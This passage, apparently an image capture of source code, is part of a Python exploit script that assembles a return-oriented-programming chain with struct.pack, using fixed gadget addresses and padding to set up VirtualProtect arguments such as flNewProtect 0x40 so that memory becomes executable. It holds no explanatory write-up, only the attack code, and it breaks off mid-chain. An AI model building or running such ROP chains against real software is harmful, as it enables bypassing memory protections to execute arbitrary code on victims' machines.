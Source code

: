 ```python
rop2 += struct.pack ('<L', 0x41414141)   # padding to compensate for retn 0x000C in the lpAddress ROP gadget
rop2 += struct.pack ('<L', 0x41414141)   # padding to compensate for retn 0x000C in the lpAddress ROP gadget
rop2 += struct.pack ('<L', 0x41414141)   # padding to compensate for retn 0x000C in the lpAddress ROP gadget
rop2 += struct.pack ('<L', 0x6ff7e29a)   # 0x6ff7e29a: add eax, 0x00000100 ; pop ebp ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x41414141)   # padding to compensate for pop ebp instruction in the above ROP chain
rop2 += struct.pack ('<L', 0x6ff7e29a)   # 0x6ff7e29a: add eax, 0x00000100 ; pop ebp ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x41414141)   # padding to compensate for pop ebp instruction in the above ROP chain
rop2 += struct.pack ('<L', 0x6ff7e29a)   # 0x6ff7e29a: add eax, 0x00000100 ; pop ebp ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x41414141)   # padding to compensate for pop ebp instruction in the above ROP chain
rop2 += struct.pack ('<L', 0x77f226d5)  # 0x77f226d5: inc edx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77f226d5)  # 0x77f226d5: inc edx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77f226d5)  # 0x77f226d5: inc edx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77f226d5)  # 0x77f226d5: inc edx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e942cb)   # 0x77e942cb: mov dword [edx], eax ; pop esi ; pop ebp ; retn 0x000C ;  (1 found)
rop2 += struct.pack ('<L', 0x41414141)   # padding to compensate for pop esi instruction in the above ROP gadget
rop2 += struct.pack ('<L', 0x41414141)   # padding to compensate for pop ebp instruction in the above ROP gadget

# Preparing the VirtualProtect flNewProtect parameter (fourth parameter)
# Changing EAX to equal the fourth parameter, flNewProtect (0x40)
# Increase EDX 4 bytes (to reach the VirtualProtect flNewProtect placeholder.)
# Remember, EDX currently is located at the VirtualProtect size placeholder.
# The flNewProtect parameter is located 4 bytes after the size parameter.
# Lastly, point EAX to the new EDX
rop2 += struct.pack ('<L', 0x41ad61cc)  # 0x41ad61cc: xor eax, eax ; ret ; (1 found)
rop2 += struct.pack ('<L', 0x41414141)  # padding to compensate for retn 0x000C in the size ROP gadget
rop2 += struct.pack ('<L', 0x41414141)  # padding to compensate for retn 0x000C in the size ROP gadget
rop2 += struct.pack ('<L', 0x41414141)  # padding to compensate for retn 0x000C in the size ROP gadget
rop2 += struct.pack ('<L', 0x77bd6b18)	# 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
```